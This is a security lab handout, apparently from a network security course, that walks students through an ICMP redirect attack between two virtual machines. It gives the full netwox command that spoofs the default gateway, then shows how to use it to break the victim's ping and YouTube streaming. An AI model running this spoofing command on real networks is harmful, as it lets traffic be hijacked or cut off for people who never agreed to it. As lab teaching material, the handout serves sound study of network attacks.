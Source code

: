 ## ICMP Redirect Attack

### Requirement

In this lab, you will disrupt a victim machine's ICMP traffic using the ICMP redirect attack; and then, using the same attack, you disrupt a victim's video streaming service.

### Setup

2 Linux VMs. VM1 as the victim; VM2 as the attacker. The 2 VMs do not need to be in the same network - however, this lab has only been tested when the two VMs are in the same network.

### Preparation steps:

This attack only requires one netwox command, let's prepare the command first. This command is: sudo netwox 86 --device "ens33" --filter "src host victim_ip_address" --gw "attacker_ip_address" --src-ip "trusted_gateway_ip_address" --code 1

what this command does is: the attacker, mimicking the default gateway, sends an icmp redirect message to tell the victim: hey, please, going forward, use the attacker's ip address as your new gateway.

1. if the attacker's network interface card is not named "ens33", then change "ens33" to the network interface card's name.
2. replace "victim_ip_address" with your victim's IP address.
3. replace "attacker_ip_address" with your attacker's IP address.
4. find "trusted_gateway_ip_address" with netstat -r command. Following is an example, run netstat -r on the victim VM.

```console
[02/14/22]seed@VM:~$ netstat -r
Kernel IP routing table
Destination     Gateway         Genmask         Flags   MSS Window  irtt Iface
default         172.16.77.2     0.0.0.0         UG        0 0          0 ens33
link-local      *               255.255.0.0     U         0 0          0 ens33
172.16.77.0     *               255.255.255.0   U         0 0          0 ens33
[02/14/22]seed@VM:~$ 
```

The above command says 172.16.77.2 is the default gateway, so that's the gateway the victim machine trusts. Therefore, let's assume the victim's ip address is 172.16.77.128, and the attacker's ip address is 172.16.77.129, then we should come up with this following command:

sudo netwox 86 --device "ens33" --filter "src host 172.16.77.128" --gw "172.16.77.129" --src-ip "172.16.77.2" --code 1

question: can you find out what "--code 1" means?

### Attack steps:

1. victim, run: $ ping www.google.com
make sure you ping command works and you do get response from google, otherwise this lab makes no sense.
if ping works, press ctrl-c to stop the ping command and move on to step 2.

2. attacker, run that attack command: $ sudo netwox 86 --device "ens33" --filter "src host 172.16.77.128" --gw "172.16.77.129" --src-ip "172.16.77.2" --code 1
3. victim, run: $ ping www.google.com (this time it should still succeed)
4: attacker, press ctrl-c to stop the attack command.
5: victim, run: $ ping www.google.com (this time it should fail, thus it proves the attack is successful.)

6: attacker, run: $ sudo sysctl net.ipv4.ip_forward=1 (immediately the victim's ping will then succeed, explain why?)
7: attacker, run: $ sudo sysctl net.ipv4.ip_forward=0 (turning this off so our attack will succeed.)

the next two steps attempt a new attack which disrupts the victim's video streaming service:

8: victim, open firefox, watch some youtube video.
9: attacker, run the exact same attack command as before: $ sudo netwox 86 --device "ens33" --filter "src host 172.16.77.128" --gw "172.16.77.129" --src-ip "172.16.77.2" --code 1 (if successful, victim won't be able to watch the youtude video)
